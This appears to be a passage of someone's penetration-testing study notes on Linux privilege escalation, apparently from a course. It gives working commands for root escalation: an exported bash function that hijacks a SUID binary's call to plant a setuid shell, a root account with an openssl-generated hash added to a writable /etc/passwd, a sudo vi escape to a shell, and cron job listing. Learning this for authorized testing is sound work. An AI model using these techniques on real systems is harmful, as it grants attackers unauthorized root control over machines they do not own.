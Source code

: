 ### Abusing shell features 2
In some shells (notably bash < 4.2-048 ) it is possible to define user functions with an absolute path name.
these functions can be exported so that subprocess have access to them, and the fucntions can take precendence over the actual executable being called.

Create a function:
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
Export the Function:
```bash
export -f /usr/sbin/service
```
Exploit:
```bash
/usr/local/bin/suid-env2
```


### Privesc for Symlinks (TCM)

## Writable /etc/passwd

first we need to create password 
`openssl passwd -1 -salt [salt] [password]`
ex:
openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1

then add 
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash` to the passwd file from the user which have write permissions

or use
`find / -not -type 1 -perm -o+w 2>/dev/null`

## GTFObins
`NOPASSWD: /usr/bin/vi` 

so for this as mentiond on this website 

sudo vi
:!sh
id

finish

# Crontab

`crontab -l` this will list the cron jobs for the current user
`cat /etc/crontab` this will list all the cronjobs available in system
